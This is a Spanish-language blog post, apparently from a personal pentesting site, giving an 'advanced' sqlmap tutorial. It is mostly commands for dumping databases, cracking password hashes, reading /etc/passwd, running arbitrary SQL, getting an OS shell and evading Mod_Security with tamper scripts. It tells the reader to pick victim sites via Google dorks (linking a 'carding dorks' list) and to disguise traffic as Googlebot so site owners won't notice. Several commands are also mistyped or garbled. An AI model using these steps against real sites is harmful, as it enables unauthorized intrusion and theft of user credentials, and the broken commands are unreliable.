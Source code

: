 ```yaml
---
title: Uso avanzado de sqlmap - sql injection
date: 2018-12-29
categories: [Pentesting, Herramientas]
excerpt: SQL INJECTION
tags: [Injection, sql]
---
```



## ¿Que es SQLMAP?
---

Es una herramienta desarrollada en el lenguaje de programación Python y sirve para hacer SQL injection automatizado en otras palabras aprovecha las vulnerabilidades de inyección SQL en aplicaciones web en la cual se puede llegar hacer distintas cosas, por ejemplo:  
  
- Enumerar bases de datos  
- Enumerar las tablas y columnas de una base de datos. 
  
- Enumerar los usuarios con su respectiva contraseña.  
  
- Descifrar los hashes de contraseñas .  
  
- Leer archivos específicos del sistema de archivo de un host especifico y mucha mas cosas.  
  
 ![sqlmap](/assets/img/post/04/sqlmap.png) 

### Uso practico
-----
Para empezar tenemos que elegír una Dork aquí les dejare unas 2k+ de Dorks de Google [Dorks](https://itechhacks.com/latest-fresh-carding-dorks-2016/)  
  
```bash  
sqlmap -u [URL] -D privacidaddb --tables --user-agent="Mozilla 5 (compatible , Googlebot/2.1, [http://www.google.com/bot.html)"](https://www.google.com/bot.html)
```

Comenzamos con este código antes de comenzar con lo más emocionante por decirlo así, pero la pregunta es: ¿Para qué sirve esto? Este comando sirve para camuflar nuestra conexión como un robot de google ya que siempre esta vigente a las conecciones vigentes de inicio ¿Que pasa si no hacemos esto? Simplemente dejarias a descubierto la conexion que estamos conectados de una manera textual y el web master se dara cuenta que estamos inyectando su web y hasta puede saber que programa estamos usando, etc.  

### Obtener datos del usuario de la web
-----
  
```bash
sqlmap -u [URL] --current-user
```

Ahora comprobemos si es correcto el usuario que tenemos de la base de datos  
  
```bash
sqlmap -u [URL] --is-dba --current-db 
```

Para ver los privilegios de administradores activados  

```bash
sqlmap -u [URL] --privileges**  
```

Para obtener todos los usuarios de DBS  
  

```bash
sqlmap -u [URL] --users
```
  
Podremos ver en donde corre y que usuario está alojado puede ser root u otro  
  
Para obtener las contraseñas de los usuarios de las dbs  
  
  
```bash
sqlmap -u sqlmap -u [URL] --password
```  
  
  
Nos saldrá un mensaje con unas opciones y tendremos que elegir según las letras ["Y" , "N", "Q"] ¿Por que sale esto? porque las contraseñas de los registros de las bases de datos se codifican automáticamente en Hash y en MD5 son las más conocidas, en fin...  
  
- Y = Es para hacer un ataque de fuerza bruta para descifrar el hash  
  
- N = Es para negar la anterior opción y obtener solo la hash  
  
- Q = Para terminar el proceso hasta ese momento**  
Ponemos Q y luego nos saldrán 3 opciones y escogemos el diccionario 1 /defauld  
  
Después nos dará la siguiente información que es la contraseña crackeada y el usuario. También podemos hacer una búsqueda más avanzada pero tenemos que tener en cuenta de como usar los nombres en las búsquedas  

```bash
sqlmap -u [URL] -C login --search**  
```  

Nos saldrán dos opciones y elegiremos la primera que es para tener una lista opcional de la búsqueda nos permitirá hacer un dump de las columnas encontradas en la DBS ponemos la opción "a" ¿Por que? esto hará un dump general  


### Obtener información de la web:
---
  
```bash
sqlmap -u [URL] --dbs -u = Target UR (e.g. “http://www.example.com/cgi-bin/item.cgi?item_id=15" --dbs 
``` 
  
Sigamos revisando la base de datos  
  
```bash
sqlmap -u [URL] -D [Ponemos aquí lo que hayas seleccionado de la tabla] --tables  
```  
  
Después nos saldrá otra tabla usaremos otro comando, pero explicare que las letras en mayúscula, por ejemplo, -D son abreviadas, porque -D es el nombre de la base de datos, o sea **--dbs** recuerda que siempre deben ir en mayúscula **-T** es **--tables**  
  
  
  
```bash
sqlmap -u [URL] -D [Ponemos aquí lo que hayas seleccionado de la tabla] -T [Ponemos aquí lo que hayas seleccionado de la tabla siguiente] --columns
```
  
  
Ahora que tenemos las columnas visibles vamos a extraer datos de una tabla  
  
  
```bash
sqlmap -u [URL] --dump -D [Ponemos aquí lo que hayas seleccionado de la tabla] -T [Ponemos aquí lo que hayas seleccionado de la tabla siguiente]  
```  
  
Nos puede salir algo similar a esto:  
  
  
  
| id | hash | nombre | correo electrónico | contraseña | permiso | inicio_sistema | system_allow_only |  
| ------- | ------- | ------- | ------- | ------- | ------- | ------- | ------- |  
| 1 | 5DIpzzDHFOwnCvPonu | admin | En blanco | <en blanco> | 3 | En blanco | En blanco | 

  
Usemos otro comando hasta ahora hemos tenido mucha información de la tabla. La columna hash parece tener el hash de contraseña puede descifrarlo y obtener los datos para iniciar sesión lo que hará slqmap es crear un archivo csv que tendrá los datos volcados para facilitar el análisis  
    
En el siguiente comando se usará para tener el banner exacto del servidor de la base de datos cuando nos salga el banner de mysql nos mostrará la versión mysql que se ha estado usando cuando tengas la versión buscamos en google una vulnerabilidad de MySQL a esa versión que tenemos  
  
  
```bash
sqlmap -u [URL] -b
```  
Para leer un archivo de sistema tenemos que tener permisos para la operación de ARCHiVO los unico que podemos leer son los archivos legibles o legibles por el usuario de mysql, por ejemplo:  
  
  
```bash
sqlmap -u [URL] --file-read = / etc / passwd --threads = 10
```
  
  
Solo es ejemplo, pero ¿Qué estamos haciendo? Sqlmap alamencera el archivo en nuestro directorio para que podamos leerlo después  
  
  
```bash
sqlmap -u [URL] --sql-query = "seleccionar ahora ();"
```
  
Lo que hicimos fue ejecutar el comando sql arbitrario el cual sirve para ejecutar consultas sql arbitrarias en la base de datos  

  
### Comandos curiosos 
----
	
```bash
sqlmap -u [URL] --fingerprint -random-agent
```  
	
-u: URL  
  
--fingerprint: Captura el flag arg para analizar  
  
--random-agent: Pide el navegador por defecto**  
  
Definir el parámetro a explotar  
  
  
```bash
sqlmap --dbms=mysql -u [URL] --dbs -p param2
```
  
  
  
Si la url tiene URI´s bonitas  
  
  
```bash  
sqlmap --dbms=mysql -u "http://XXXXXXXXXXX/detail/code/value1*/param2/value2" --dbs
```
  
  
Ejecutar consultas directametne  
  
```bash  
sqlmap --dbms=mysql -u [URL] -D "BASEDEDATOS" --sql-query "SELECT * FROM TABLAS;"
 ```
  
  
Conseguir Shell del sistema si es que es viable  
  
  
```bash
sqlmap --dbms=mysql -u [URL] --os-shell**  
```
	
### Evadiendo el Mod_Security con Tampers de sqlmap
-----

Alguna vez cuando hacemos inyección por GET en alguna web a veces nos aparece un anuncio de Mod_Security al cual no deja inyectar, pero usando sqlmap y con sus Tampers podremos sacarnos de este apuro. Puedes encontrar información de cada Tamper cada archivo tiene su explicación de su funcionalidad solo tiene que ir a sqlmap/tamper/  
  
### ¿Cómo usamos Tamper en SQLMAP? 
----	
	
Es fácil solo se debe utilizar el siguiente comando o agregar la opción  
  
  
```bash
--tamper [Nombre del Tamper]**  
```
	
En otras palabras:
	
![tampers](/assets/img/post/04/tampers.png)

```bash
sqlmap.py -u [URL] --dbms "MySQL" -p [marca_id] --tamper "modsecurityzeroversioned.py" --batch
```
Ahora que sabemos esto de evadir los filtros y los WAF, gracias a la herramienta qué carga las reglas del script de sabotaje para lo mencionado, pero sabías que podemos usar todos en una línea? Ejemplo:  

### Bajar la clase de seguridad y mas

  
Podemos hacer otro ataque en donde haremos un escaneo de la URL vereficando las cookies y a lo último hace un string para poder ver la base de datos y no solo también podremos bajar la clase de seguridad de la página, pero espera antes necesitamos dos cosas URL y cookie podemos obtener esta información con BurpSuite y después usar sqlmap digamos que ya tenemos eso, pero y ahora que? Simplemente ya podemos usar el siguiente comando:  
  
```bash
sqlmap -u '[URL]' --cookie='[cookie]' --string=Surname --dbs
```
